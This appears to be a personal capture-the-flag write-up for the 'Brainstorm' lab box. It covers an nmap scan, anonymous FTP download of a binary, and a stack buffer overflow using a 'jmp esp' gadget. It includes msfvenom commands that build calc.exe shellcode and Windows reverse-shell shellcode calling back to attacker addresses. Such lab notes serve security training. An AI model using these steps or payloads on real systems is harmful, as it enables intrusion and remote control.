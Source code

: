 # enumerate
* scan

21/tcp   open  ftp                Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|_  SYST: Windows_NT
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-09T20:54:55+00:00; -2s from scanner time.
9999/tcp open  abyss?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     Welcome to Brainstorm chat (beta)
|     Please enter your username (max 20 characters): Write a message:
|   NULL: 
|     Welcome to Brainstorm chat (beta)
|_    Please enter your username (max 20 characters):
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.80%I=7%D=5/9%Time=5EB717BE%P=x86_64-pc-linux-gnu%r(NUL
...
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s

# Enumerate
FTP with anonymous user
get the exe file and the dll 
Didn't work, have to issue binary command on FTP and then it does.
Needed win10_x86 machine
Run on windows and attach with immunity. 

# Test Foodhold
* crash program
see that long messages crash. 
Find how many characters for EIP offset
  * get the offset from crashing on test vm

* create payload
find a way to control without aslr via essfunc
      '''
	pat@kali:~/Desktop/Cert_Prep/thm/brainstorm$ ROPgadget --binary essfunc.dll | grep "jmp esp"
	0x625014df : jmp esp
	0x625014dd : mov ebp, esp ; jmp esp
	0x625014dc : push ebp ; mov ebp, esp ; jmp esp
      '''
Ok, can jump to that function that jumps to esp. Figure out esp is next so jump esp; shellcode right after. should work
Get calc.exe shellcode -> pat@kali:~/Desktop/Cert_Prep/thm/brainstorm$ msfvenom -f python -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -b '\x00\x0a' EXITFUNC=thread
Worked. 

* get shell
Get reverse shell -> msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.8 LPORT=1234 -f python -e x86/shikata_ga_nai -b "\x00\x0A" EXITFUNC=thread
Worked. 

# Deploy Foothold
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.2.238 LPORT=1234 -f python -e x86/shikata_ga_nai -b "\x00\x0A" EXITFUNC=thread
works, get flag


